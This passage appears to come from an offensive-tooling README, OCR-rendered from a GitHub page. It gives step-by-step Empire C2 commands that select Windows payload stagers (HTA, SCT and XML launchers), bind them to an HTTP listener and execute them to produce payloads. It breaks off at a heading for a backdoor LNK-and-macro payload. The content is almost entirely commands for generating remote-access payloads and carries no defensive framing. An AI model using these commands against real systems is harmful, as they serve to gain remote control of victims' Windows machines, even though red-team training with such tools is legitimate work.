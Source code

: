 2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### HTA-Based Payload Execution for Windows Targets with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_hta
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
    
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Windows Script Command (.SCT) Payload Launcher with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_launcher_sct
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
    
------------------------------------------------------------------------------------------------------------------------------------------------------------

### XML Payload Launcher for Windows Systems with Empire BC

1. **Select the Stager**:
    ```bash
    usestager windows_launcher_xml
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Backdoor LNK & Macro Combination Payload for Windows with Empire BC
